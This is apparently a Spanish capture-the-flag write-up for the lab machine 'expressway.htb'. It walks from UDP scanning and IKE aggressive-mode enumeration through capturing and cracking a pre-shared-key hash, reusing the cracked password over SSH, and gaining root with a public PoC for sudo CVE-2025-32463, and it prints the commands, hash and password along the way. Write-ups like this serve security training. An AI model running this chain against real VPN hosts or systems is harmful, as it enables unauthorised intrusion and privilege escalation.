










---



---

- IKE 
- PSK-crack
- PSWD Reuse
- CVE-2025-32463

---

# Enumeración Inicial

```bash
sudo nmap -p- --open -sSV -Pn 10.10.11.87
```



Externamente no hay puertos TCP abiertos aparte de 22 (SSH). Así que naturalmente realizamos un barrido UDP. 

Aquí hay un ejemplo de invocación de udpx:

```bash
git clone https://github.com/nullt3r/udpx.git
cd udpx
go build ./cmd/udpx
sudo mv udpx /usr/local/bin/udpx
udpx -t 10.10.11.87 -c 128 -w 1000
```

Con `udpx` encontramos algo interesante en el puerto 500(IKE).



El puerto UDP 500 suele asignarse a ISAKMP / IKE (VPN IPsec). Conclusiones:
- Este host es un punto final VPN IPsec (IKEv1 o IKEv2).
- El respondedor puede divulgar cadenas de proveedor/versión, valores de identidad, propuestas criptográficas compatibles y, en el modo agresivo IKEv1, incluso nombres de usuario.
- Una configuración incorrecta (PSK débiles, modo agresivo expuesto o certificados malformados) representa un vector de entrada procesable o una superficie de fuga de información.

> [!NOTE]  
> IKE (Internet Key Exchange) coordina las asociaciones criptográficas utilizadas por IPsec. En términos sencillos: IKE es el protocolo de enlace que permite a dos extremos negociar claves, algoritmos e identidades para que puedan establecer túneles cifrados (ESP/AH).


Para obtener huellas digitales y mapear **IKE**, podemos utilizar `ike-scan`. Este programa crea paquetes IKE, obtiene respuestas de proveedores/identidades/propuestas y obtiene huellas digitales del responder.

- Prueba inicial.

```bash
❯ sudo ike-scan expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned HDR=(CKY-R=ac5ca3d1b6989921) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.048 seconds (20.66 hosts/sec).  1 returned handshake; 0 returned notify

```

- Modo Agresivo.
Forzar suele filtrar datos sobre identidades útil para ataques sobre `PSK`.

```bash
❯ sudo ike-scan -A expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=38b81069b6a18457) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.048 seconds (20.91 hosts/sec).  1 returned handshake; 0 returned notify

```

- Adquisición
Producir los parámetros de grietas PSK con -P(escribe PSK de modo agresivo para crackear localmente a través del ataque psk-crack):

```bash
sudo ike-scan -A expressway.htb --id=ike@expressway.htb -Pike.psk
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=455621002731ad73) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.049 seconds (20.49 hosts/sec).  1 returned handshake; 0 returned notify
❯ tail ike.psk
240c43645ead8e3922d05f4f744b82e716e2c1d3681a85889465ab85147c2fad216db333b146f4b1d47fcd12c654d29d78e7734e7d1b5084bfbbf7e43c691672593d3b4a6da016b92aa9e17242fe869681bdd78388bd788a1f52f92a7514e59ba6e406bdd18ed7731b2eadc0b8fb173d4e76b4e525a1fa852e2247159d0c1a90:acc17d7b3adb3782be971c567fef4ce21c9ff0df24c175a9a34182912f3047715118bb9b1f4d696b8a57caff2312a4af57a9591f4372a8cac975389e25acf20a61ff0927f6a419986a94043f9f692d066a96fc12abd65c95e0ed9b86ca1a9ad7f632d5469e8e8150a301c445986e8a45db5a42561feeffffb190bdd6a1dc4962:455621002731ad73:c3cf88cbd8d79021:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:50808d7187e5fb1fc1285b1af7201c96633466f3:2c94c538753add40ec5b94439286baa71dafae32801cb784635bc78fa1063603:9e8266406565f6c492c001b10c0aa2be8af5f88d

```

Una vez conseguido el hash de autenticación, procedemos a crackearlo localmente:

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt ike.psk
```



Adquirimos la contraseña `freakingrockstarontheroad` del usuario `ike` para probar su reutilización por `SSH` y conseguir el acceso.
# Acceso

Conseguimos acceder por `SSH`, mediante la utilización de la contraseña conseguida.



Encontrando así la `user.txt`:



# Movimiento lateral y escalada

Encontramos que la versión de `sudo` es vulnerable a `CVE-2025-32463` 



Existe una PoC del CVE, que nos descargamos y subi,os a la máquina remota usando `SCP`:

```bash
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git && cd CVE-2025-32463_chwoot
scp sudo-chwoot.sh ike@expressway.htb:/dev/shm
```



Ejecutamos el script, y nos concede directamente una shell como root consiguiendo así el `root.txt`:



---
HAPPY HACKING

---


